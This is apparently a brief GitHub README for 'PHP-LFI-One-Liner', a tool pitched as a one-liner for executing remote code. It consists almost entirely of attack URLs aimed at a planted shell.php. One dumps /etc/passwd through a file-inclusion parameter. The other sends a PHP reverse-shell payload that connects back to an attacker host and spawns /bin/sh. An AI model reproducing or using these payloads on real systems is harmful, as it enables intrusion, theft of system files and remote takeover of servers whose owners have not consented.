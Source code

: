 # PHP-LFI-One-Liner
Simple one-liner to execute remote code on a system

  
# Example

# Dump Password file

http://<ip>/shell.php?id=/etc/passwd
  
# Reverse Shell (PHP)

http://<ip>/shell.php?id=php -r '$sock=fsockopen("<reverse_ip>",<port>);exec("/bin/sh -i <&3 >&3 2>&3");'
